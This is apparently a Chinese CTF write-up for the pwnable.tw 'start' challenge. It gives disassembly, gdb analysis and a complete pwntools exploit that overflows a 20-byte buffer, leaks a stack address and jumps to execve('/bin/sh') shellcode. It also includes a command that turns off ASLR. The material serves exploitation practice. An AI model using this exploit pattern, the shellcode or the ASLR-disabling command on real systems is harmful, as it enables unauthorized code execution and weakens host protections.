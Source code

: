 ## 0x00 环境准备

* pwndbg
* pwntools

关闭地址随机化保护（方便调试）

```bash
sysctl -w kernel.randomize_va_space=0
```

## 0x01 分析

file + checksec 二连

ida 分析

```ida
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 20          ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3           
.text:08048097                 int     80h             ; 
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

根据[系统调用号](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html)，得知当eax为3时，执行`sys_read`，在加上gdb调试，得到函数流程

```c
void_start(){
    charbuf[20]='Let'sstarttheCTF:';
    // 从buf往stdout写入20字节
    sys_write(1,buf,20);
    // 从stdin中读取60字节到buf 
    sys_read(0,buf,60);
}
```

通过`cyclic`或其他pattern，得到溢出点为20
因此，当程序执行完`sys_read`时候，往`stdin`写入20bytes，`read`函数往栈中写入了20字节，然后即覆盖main的返回地址
返回到`write`函数利用`write`泄漏栈中buf的的地址，然后继续执行到`_start`的返回地址

<!-- todo 说明为什么不变 -->

## 0x02 调试

从标准输入（fd = 0）读入0x3c个字节到0xfffd104中去

![](assets/2019-07-29-20-36-09.png)

栈顶指针加0x14，栈空间减少了0x14个字节
ret至`sys_write`，该函数地址是不变的，一直为0x08048087

![](assets/2019-07-30-09-23-57.png)

`sys_write`参数如下，由于之前的`mov ecx,esp`，泄露出ecx寄存器中的esp栈顶地址存放的值以及之后0x14个字节，即

```py
0xffffd120
0x00000001
0xffffd2f8
0x00000000
0xffffd300
```

![](assets/2019-07-30-09-26-02.png)

从标准输入（fd = 0）读入0x3c个字节到0xfffd11c中去

由之前的例子可知返回地址距离$esp栈顶地址有20个字节，由于最小的shellcode也大于20字节，所以不能直接放入leak的栈空间地址里。

所以只能放在泄露的栈空间的后面，即leak+20 = 0xffffd120+20 的地址处

见下图，返回地址的存放的栈地址是0xffffd130，泄露出的是地址是0xffffd120，因此需要让返回地址变为0xffffd134，而0xffffd134存放shellcode就行了

![](assets/2019-07-30-09-38-56.png)


## 0x03 exp

```py
# coding:utf-8
from pwn import *

p = process("./start")
# p=remote('chall.pwnable.tw',10000)
context(log_level='debug', arch='i386', os='linux')

gadget = 0x08048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(
        proc.pidof(p)[0],
        gdbscript=
            '''
            b *0x8048097    
            '''
    )


def leak():
    p.recv()
    payload = 'A' * 20 + p32(gadget)
    p.send(payload)
    return u32(p.recv(4))


def pwn(shellcode_addr):
    #                    ret shellcode_addr  run_shellcode
    payload = 'A' * 20 + p32(shellcode_addr)+shellcode
    p.send(payload)
    p.interactive()


gdb_attach(p)


shellcode_addr = leak()+20
print "Shellcode_addr = " + hex(shellcode_addr)
pwn(shellcode_addr)

```

